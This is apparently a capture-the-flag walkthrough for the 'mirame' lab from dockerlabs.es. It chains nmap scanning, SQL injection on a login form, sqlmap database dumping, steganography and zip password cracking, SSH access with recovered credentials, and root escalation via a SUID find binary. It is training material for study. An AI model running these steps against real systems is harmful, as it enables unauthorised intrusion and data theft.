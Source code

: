 #+title: mirame
#+author: dockerlabs.es
#+caption: Easy lab from dockerlabs

* Setup the lab
At https://dockerlabs.es/ has multiple challenges from different levels

- very-easy
- easy
- medium
- hard

-> Download mirame.zip

Verify the auto_deploy.sh script content for security good practical !!

#+begin_src sh
cat auto_deploy.sh
#+end_src

Made the script executable with chmod

#+begin_src sh
chmod +x auto_deploy.sh
#+end_src

- Run the script and the machine will be done ->
[[file:./print.png]]

~Máquina desplegada, su dirección IP es ->172.17.0.2~

* First lookup

First i run nmap enumerate ports and respective services running at server

#+begin_src bash
nmap -sVC -Pn -T4 172.17.0.2
#+end_src

open ports - 22, 80

http login page 80

The login page are vulnerable to SQLInjection, this can be discovery after try login with ->

- username : '
- password : 123

- The single quotation marks are tipically a initial payload to test and search for possible sqlinjections

*** SQL ERROR ->

Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax;

when the server responds an sql syntax error, that mean we are manipulating the search at database, the user input is merged with the query at database, potential a high vulnerability at environment

Request ->
#+begin_src bash
POST /auth.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 26
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Origin: http://172.17.0.2
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.17.0.2/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=%27&password=1233
#+end_src

~%27~ is the single quotation mark with url encode

-----

#+title: SQLMap usage

  sqlmap -vv -r request.txt --dbs

  sqlmap -vv -r request.txt -D users --tables

  sqlmap -vv -r request.txt -D users -T usuarios --dump


[[file]]:[[./data.png]]

- One of the users at table 'usuarios' is named directoriotravieso, with means a directory

http://172.17.0.2/directoriotravieso/

that directory has a image file

http://172.17.0.2/directoriotravieso/miramebien.jpg

using stegseek at this flie ->

#+begin_src bash
stegseek miramebien.jpg -wl /usr/share/wordlists/kali-wordlists/rockyou.txt
#+end_src

[!] Found passphrase: "chocolate"
[!] Original filename: "ocultito.zip"
[!] Extracting to "miramebien.jpg.out".

- After move the miramebien.jpg.out to his original file name 'ocultito.zip', we can unzip that file

  #+begin_src sh
mv miramebien.jpg ocultito.zip
unzip ocultito.zip
  #+end_src

- the secret.txt from ocultito.zip has a password, which can be cracked with  ~zip2john~

  #+BEGIN_SRC sh
zip2john ocultito.zip > ocultito.hash

  #+END_SRC

Copy the generated hash and use the john with some wordlist

#+begin_src shell
john --wordlist=/usr/share/wordlists/rockyou.txt ocultito.hash
#+end_src
and get the credentials to SSH access from the secret.txt file, which are ziped at ocultito.zip with password to decompress

* Access and privilege escalation

ssh -> carlos:carlitos

searching for binarys with SUID bit set
#+begin_src sh
find / -type f -perm -4000 -ls 2>/dev/null
#+end_src

we find the ~find~ binary with the bit SUID, what is a big problem for security

we can elevate our priveleges with that binary with SUID bit

search at https://gtfobins.github.io/gtfobins/ for ways to exploit binarys with SUID bit

to ~find~ binary with SUID bit we can do that ->

#+begin_src sh
find . -exec /bin/sh -p \;
#+end_src

and now we are the system root !
